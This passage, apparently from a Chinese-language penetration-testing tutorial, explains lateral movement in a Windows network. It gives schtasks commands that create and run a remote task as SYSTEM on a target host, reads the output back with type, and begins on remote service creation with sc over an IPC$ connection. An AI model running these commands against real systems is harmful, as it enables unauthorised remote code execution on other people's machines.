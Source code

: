 除了就像上面那样利用计划任务执行木马程序获得主机权限外，我们还可以利用schtasks计划任务直接执行系统命令，但由于不会回显，所以我们要将执行的结果写入到一个文本文件中，然后利用type命令远程读取：

```


```
schtasks /create /s 192.168.183.130 /tn test /sc minute /mo 1 /tr "C:\Windows\System32\cmd.exe /c 'whoami > C:\Users\Administrator\result.txt'" /ru system /f
```




```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

立即启动该计划任务：

```


```
schtasks /run /s 192.168.183.130 /i /tn test
```




```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

最后利用type命令远程查看目标主机上的result.txt文件即可，如下图所示，命令执行成功：

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

**注意：在使用schtasks命令时，会在系统中留下日志文件C:\Windows\Tasks\SchedLgU.txt。**

创建Windows服务来进行横向渗透
------------------

使用条件：

*   当前跳板机用户具有管理员权限(因为要创建服务)。
    
*   与目标机器已经建立ipc连接
    

### 利用 sc 命令

在windows系统命令提示符中，有一个SC工具命令集。该工具集主要用来对操作系统服务进行管理，该命令是由service一词，简化而来的。我们可以用sc对目标主机远程创建服务来进行横向渗透

使用sc命令远程Windows服务操作需先建立IPC$连接，否则在执行时会返回拒绝访问。流程基本如下：

1. 先让跳板机与内网目标机DC建立ipc连接。
